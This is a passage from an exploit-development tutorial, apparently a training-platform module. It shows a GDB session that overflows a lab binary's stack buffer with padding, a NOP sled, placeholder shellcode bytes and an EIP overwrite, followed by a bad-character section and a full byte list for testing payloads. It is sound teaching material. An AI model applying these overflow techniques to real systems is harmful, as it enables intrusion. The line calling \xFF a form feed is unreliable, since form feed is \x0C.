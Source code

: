 #### GDB

```shell
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()

```

#### Buffer

![Memory layout diagram with sections: .text, .data, .bss, Heap, and Stack. Memory addresses range from 0x00000000 to 0xFFFFFFFF. An arrow shows a buffer overflow from strcpy() in the Stack, affecting ESP, EBP, and EIP registers, with a buffer of 786 bytes, 100 bytes of NOPs, 150 bytes of shellcode, and 4 bytes to EIP](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_7.png)


# Identification of Bad Characters

* * *

Previously in UNIX-like operating systems, binaries started with two bytes containing a " `magic number`" that determines the file type. In the beginning, this was used to identify object files for different platforms. Gradually this concept was transferred to other files, and now almost every file contains a magic number.

Such reserved characters also exist in applications, but they do not always occur and are not still the same. These reserved characters, also known as `bad characters` can vary, but often we will see characters like this:

- `\x00` \- Null Byte
- `\x0A` \- Line Feed
- `\x0D` \- Carriage Return
- `\xFF` \- Form Feed

Here we use the following character list to find out all characters we have to consider and to avoid when generating our shellcode.

#### Character List

```shell
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

```

